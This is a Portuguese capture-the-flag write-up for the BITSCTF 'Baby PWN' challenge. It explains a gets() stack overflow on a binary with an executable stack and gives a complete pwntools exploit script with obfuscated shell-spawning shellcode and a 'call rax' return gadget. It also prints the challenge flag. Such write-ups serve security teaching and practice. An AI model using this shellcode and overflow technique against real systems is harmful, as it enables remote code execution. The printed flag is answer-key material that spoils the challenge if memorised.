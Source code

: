 # WriteUp: Baby PWN
## Descrição do Desafio
**Categoria:** PWN \
**Descrição:**
> I hope you are having a nice day.

### Arquivos
| Arquivo | Descrição |
| ------- | --------- |
| main | Executável. |
| solve.py | Script da solução. |

> 📥 **Download:** [Arquivos](https://github.com/HawkSecUnifei/Writeups/raw/refs/heads/main/2025/BITS_CTF/Baby-PWN/Arquivos.zip)

## Passo a Passo da Solução
### 1. Análise do executável
Olhando para o código do executável pelo **Ghidra**, notamos que ele é bem simples. Ele apenas chama uma função `vuln()` que por sua vez, chama a `gets()`. 

Aqui já sabemos que o executável é vulnarável a *buffer overflow*, já que a `gets()` não limita e entrada de caracteres. Porém, a vulnerabilidade principal está na falta da proteção `NX`.

```bash
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stack:      Executable
RWX:        Has RWX segments
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

A proteção `NX` é a responsável por fazer com que os dados na pilha não possam ser executados, porém sem ela, podemos inserir *shellcodes* no *buffer* e por fim retornar para eles, fazendo eles serem executados. 

### 2. Exploit
Já sabemos que devemos escrever *shellcodes*, porém não sabemos como retornar para eles, pois a área da pilha é influenciada pelo `ASLR` e não pelo `PIE`, e como ele dificilmente estará desativado, a pilha estará com os endereços randomizados.

É aí, que surge a instrução `call rax`, identificada pelo comando `ROPgadget --binary=main`. Essa instrução é importante porque sabemos o endereço, que não é aleatório, e principalmente, porque o `rax` armazena um ponteiro para o *buffer* após a função `gets()` ser executada. Com isso a solução está praticamente pronta, falta descobrir quantos *bytes* escrever até o endereço de retorno.

```bash
pwndbg> retaddr
0x7fffffffded8 —▸ 0x401168 (main+18) ◂— mov eax, 0

pwndbg> x/100x $rsp
0x7fffffffde60: 0x41414141      0x41414141      0x00080000      0x00000000
0x7fffffffde70: 0x00008000      0x00000000      0xffffdea8      0x00007fff
0x7fffffffde80: 0x00000019      0x00000021      0x00000000      0x00000000
0x7fffffffde90: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdea0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdeb0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdec0: 0x00000000      0x00000000      0xf7fe5af0      0x00007fff
0x7fffffffded0: 0xffffdee0      0x00007fff      0x00401168      0x00000000
```

Endereço de retorno está armazenado no endereço `0x7fffffffded8` e o *buffer* começa no endereço `0x7fffffffde60`, logo a quantidade de *bytes* para chegar no retorno é 120.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./main")
context.arch = "x86-64"

p = remote("chals.bitskrieg.in", 6001)
#p = process()

shellcode = asm('''
                mov eax, 0x3c
                dec al
                mov rdx, 0
                mov rsi, 0
                mov rdi, 0x0065722f6d65602f
                mov r10, 0x0003010001040200
                add rdi, r10
                push rdi
                mov rdi, rsp
                syscall
''')

payload = shellcode + b"A" * (120 - len(shellcode)) + p64(0x0000000000401014)
p.sendline(payload)
p.interactive()
```

{% endcode %}

{% hint style="warning" %}

**Importante:** O *shellcode* foi reutilizado do desafio [Execute](/HackTheBox/Execute/README.md), por isso ele não está otimizado.

{% endhint %}

### Flag
`BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}` 

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)